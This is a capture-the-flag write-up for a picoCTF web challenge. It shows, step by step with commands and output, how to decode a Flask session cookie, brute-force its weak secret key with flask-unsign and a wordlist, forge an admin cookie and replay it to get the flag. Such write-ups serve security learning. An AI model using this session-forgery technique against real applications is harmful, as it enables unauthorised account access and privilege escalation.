 ## Description
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! server.py http://mercury.picoctf.net:18835/

## Solution
It is a flask webpage that used flask cookie.

if we input `snickerdoodle` (as the placeholder suggested) we will get a cookie like below:

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 1790
Vary: Cookie
Set-Cookie: session=eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Zege9g.RGIqqCZEVoQIruRNB3b3iV0JxTM; HttpOnly; Path=/
```

and if we check it with `jwt.io` will get below:
```
{'very_auth': 'snickerdoodle'}
```

Ok let's check `flask-unsign` package and see what usefull will find out by this tool.

```bash
flask-unsign --decode --cookie 'eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Zege6g.O7dLVM6qjNHDklhceyxi9SuzI9w'
{'very_auth': 'snickerdoodle'}
```

Ok let's try to find the secret key by brute-force (i used rockyou.txt dictionary for it).
```bash
$ flask-unsign  --wordlist ../../../Resources/rockyou.txt --unsign --cookie 'eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Zege6g.O7dLVM6qjNHDklhceyxi9SuzI9w' --no-literal-eval
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 6272 attempts
b'fortune'
```

we found the secret key: `fortune`.

Now let's try to encode a cookie for ourself:
```bash
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'fortune'
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZegjpA.DW8Ah2ei1K5zDGEprl5-84jUxEE
```

and send this request with new cookie:
```
GET /display HTTP/1.1
Host: mercury.picoctf.net:18835
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: auth_name=TE1YOFZTSU0zYWh1VkpjYUVNQTdXVG01clZRbVplb0NWQWdSZ1hPNCsxRUhMQ3FQUEdWdEttaWhXbm1qbW1Ja3JDWVpLWW8vYVlMTVZsazVCZXlkWkpIZHhyMzRpMmFMTUQ2b1Q1dGtuQmQyeGZNQUlaNFpGaGwzdzc5MkM3TXQ=; name=18; PHPSESSID=j62q4iq5g1nosspa3vvp9puc14; session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZegjpA.DW8Ah2ei1K5zDGEprl5-84jUxEE
Upgrade-Insecure-Requests: 1
```
and will get the flag in response
